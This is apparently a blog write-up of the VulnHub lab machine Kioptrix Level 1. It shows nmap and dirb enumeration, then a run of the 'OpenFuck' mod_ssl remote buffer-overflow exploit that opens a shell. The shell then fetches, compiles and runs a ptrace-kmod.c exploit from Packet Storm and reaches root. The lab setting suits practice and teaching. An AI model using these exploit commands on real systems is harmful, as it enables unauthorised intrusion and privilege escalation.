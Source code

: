 ```yaml
---
layout: post
title:  "Kioptrix Level 1 Writeup"
date:   2019-04-09 15:44:02 +0530
author: Kyle Simmons
categories: [vulnhub, vulnerable-machine]
---
```

Kioptrix level 1 is an easy vulnerable machine on vulnhub.

[Kioptrix Level 1 download page]
<br>
<h2>1. Enumeration</h2>
<br>
The port scan below reveals several open ports including SSH, HTTP, RPC, Samba and 443.

{% highlight shell_session %}
nmap -T4 -sV -A -oN nmapscan.txt 192.168.0.66
Nmap scan report for 192.168.0.66
Host is up (0.0054s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MMYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2019-03-28T23:46:31+00:00; +1h01m49s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)
Host script results:
|_clock-skew: mean: 1h01m48s, deviation: 0s, median: 1h01m48s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
{% endhighlight %}<br>

<h3>1.1 OpenSSH port 22</h3>
<br>
Using <font color="red">searchsploit</font>, there appears to be no known vulnerabilities in the exploit database for OpenSSH.
<br>
<br>
<h3>1.2 HTTP port 80</h3>
Running <font color="red">dirb</font> reveals several interesting files including:

{% highlight shell_session %}
-----------------
DIRB v2.22
By The Dark Raver
-----------------

OUTPUT_FILE: dirbresults.txt
URL_BASE: http://192.168.0.66/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.0.66/ ----
+ http://192.168.0.66/~operator (CODE:403|SIZE:273)
+ http://192.168.0.66/~root (CODE:403|SIZE:269)
+ http://192.168.0.66/cgi-bin/ (CODE:403|SIZE:272)
+ http://192.168.0.66/index.html (CODE:200|SIZE:2890)
==> DIRECTORY: http://192.168.0.66/manual/
==> DIRECTORY: http://192.168.0.66/mrtg/
==> DIRECTORY: http://192.168.0.66/usage/

---- Entering directory: http://192.168.0.66/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.0.66/mrtg/ ----
+ http://192.168.0.66/mrtg/index.html (CODE:200|SIZE:17318)

---- Entering directory: http://192.168.0.66/usage/ ----
+ http://192.168.0.66/usage/index.html (CODE:200|SIZE:3704)

-----------------
DOWNLOADED: 13836 - FOUND: 6
{% endhighlight %}
<br>
The only files that appear to be out of place are `~operator` and `~root`. However, these files appear have
a CODE:403 and cannot be accessed so this is a dead end.

<h3>Port 80 is running:</h3>
<br>
-Apache 1.3.20 (Not vulnerable)<br>
-Red-Hat/Linux <br>
-mod_ssl/2.8.4 OpenSSL/0.9.6b<br><br>

Using <font color="red">searchsploit</font> to search for these services, <font color="red">mod_ssl/2.8.4</font>
appears to be Vulnerable to a remote buffer overflow exploit.
<br><br>
<h2>2. Exploitation</h2>
Exploiting the <font color="red">mod_ssl/2.8.4</font> vulnerability:<br>
The exploit, remote buffer overflow named 'OpenFuck' and 'OpenFuckv2' appears
to be out date. However, i found a patched version of the exploit on Github linked below:<br>
[Fixed alternative version of 'OpenFuck' Github]
<br><br>
Executing the exploit:
<br>
The parameters are passed (version: 0x6b, IP address: 192.168.0.66 and open N connections: -c 50) <br>
{% highlight shell_session %}
./OpenFuckExploit 0x6b 192.168.0.66 -c 50

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
--11:16:09--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--11:16:10--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.87 MB/s

11:16:10 (1.25 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 7066
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
{% endhighlight %}<br>
<h2>3. Root access gained!</h2>
The <font color="red">uid</font> and <font color="red">whoami</font> command shows root access to the system using the OpenFuck exploit.



[Kioptrix Level 1 download page]: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/
[Fixed alternative version of 'OpenFuck' Github]: https://github.com/heltonWernik/OpenLuck
